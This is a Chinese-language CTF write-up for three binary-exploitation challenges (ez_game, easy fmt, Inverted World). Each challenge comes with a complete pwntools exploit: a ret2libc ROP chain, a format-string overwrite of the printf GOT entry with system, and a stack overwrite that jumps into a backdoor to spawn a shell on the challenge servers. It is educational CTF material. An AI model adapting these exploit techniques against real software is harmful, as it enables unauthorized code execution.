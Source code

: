 # PWN
## ez_game
这周最简单的一道题，一道简单的ret2libc
![[Pasted image 20241005215022.png]]
![[Pasted image 20241005215127.png]]
![[Pasted image 20241005215110.png]]
构造exp:
```python
from pwn import *
import pwnlib.gdb

context(arch='amd64', os='linux', log_level='debug')
local = False
if local:
    p = process('./attachment')
    pwnlib.gdb.attach(p, 'b *main')
else:
    p = remote('101.200.139.65', 30780)

elf = ELF('./attachment')
lib = ELF('./libc-2.31.so')

ret = 0x400509
rdi = 0x400783
rsp = 0x40077d

put_got = elf.got['puts']
put_plt = elf.plt['puts']
main = elf.symbols['func']

p.recvuntil(b"!!!!\n")

payload = b'A' * (0x50) + p64(ret) + p64(rdi) + p64(put_got) + p64(put_plt) + p64(main)
p.sendline(payload)

p.recvuntil(b'again!!\n')

addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
print(hex(addr))

libc_base = addr - lib.sym['puts']
system = libc_base + lib.sym['system']
binsh = libc_base + next(lib.search('/bin/sh'))

p.recvuntil(b"!!!!\n")

payload = b'A' * (0x50 + 8) + p64(ret) + p64(rdi) + p64(binsh) + p64(system)
p.sendline(payload)

p.interactive()
```
运行后获取`shell`
![[Pasted image 20241005215455.png]]
PS:两个payload构造的时候涉及的栈堆平衡还不是很懂，这里属于试错试出来的

## easy fmt
首先第一次遇到给ld-linux的题目，查了一下需要patchelf后把libc版本弄对
![[Pasted image 20241005215657.png]]
主要函数这里可以看出可以利用格式化字符串漏洞，用gdb调试一下
![[Pasted image 20241005215834.png]]
可以看到`canary`(这道题没用)和`__libc_start_main+128`
思路很明显，第一次，利用格式化字符串漏洞泄露`__libc_start_main`的地址后可以获取基址，从而获取`system`函数的地址，同时获取`printf`函数的got表地址；第二次，利用格式化字符串漏洞将`printf`函数换为`system`函数；第三次，输入`/bin/sh`，使`printf`函数实际执行`system`获取shell
exp:
```python
from pwn import *
import pwnlib.gdb

context(arch='amd64', os='linux')
context.log_level = 'debug'
local = True
if local:
    p = process('./ez_fmt')
    pwnlib.gdb.attach(p, 'b vuln')
else:
    p = remote('39.106.48.123', 28643)

libc = ELF('./libc.so.6')
elf = ELF('./ez_fmt')

offset = 8
payload = '%39$p'
p.recvuntil(b'data: \n')
p.sendline(payload)
receive = p.recvuntil(b'\n')
main_addr = int(receive, 16) - 128
log.info("main_addr: " + hex(main_addr))

printf_got = elf.got['printf']

base = main_addr - libc.symbols['__libc_start_main']
system_addr = base + libc.symbols['system']
log.info("system_addr: " + hex(system_addr))
print("printf_got: ", hex(printf_got))

payload = fmtstr_payload(offset, {printf_got: system_addr}, write_size='int')
  
print("len_payload: ", len(payload))
print("fmtstr_payload: ", payload)

p.sendafter(b'data: \n', payload)

p.recvuntil(b'data: \n')
p.sendline(b'/bin/sh\x00')

p.interactive()
```
![[Pasted image 20241005220952.png]]
注意点：因为`read`有大小限制，在使用`fmtstr_payload`时需限制`write_size`参数为`int`来缩短`payload`，不过会导致需要填充的字符数量很多，要填充一会
~~是哪个傻子获取`printf`的got时写成`elf.sym`，导致做了好几天没做出来，我不好说~~
## Inverted World
![[Pasted image 20241005221232.png]]
首先可以看到有一个backdoor函数，没什么思路，打开gdb调试一下
![[Pasted image 20241005221439.png]]
可以发现整个是逆序放入栈中的，那么只需要填充至`+008`处将`+008`处换为`backdoor`的地址就可以调用`backdoor`了
![[Pasted image 20241005221833.png]]
进入``backdoor``后发现还需要`hackable`为真时才能真正获取`shell`，不然会获得一个真“flag”，这里我没找到直接改变`hackable`的方法，我选择直接进入`if`里面
![[Pasted image 20241005222024.png]]
将覆盖地址改为`0x401387c则可以直接进入`if`内
构造exp:
```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
local = False
if local:
    p = process('./inverted_world')
    pwnlib.gdb.attach(p, 'b *read')
else:
    p = remote('39.106.48.123', 34234)

# 因read为倒叙读取，所以需要将输入的字符串倒叙输入
backdoor = 0x7c13400000000000

payload = b'a' * (0x100) + p64(backdoor)
p.sendline(payload)
p.interactive()
```
![[Pasted image 20241005222343.png]]
然后我们又会发现，这里的`read`他在需要倒叙输入的同时，还只能输入两个字符，除了`ls`我们什么都干不了.......
才怪，输入`sh`可以直接获取`shell`
![[Pasted image 20241005222549.png]]
接下来可以正常获取flag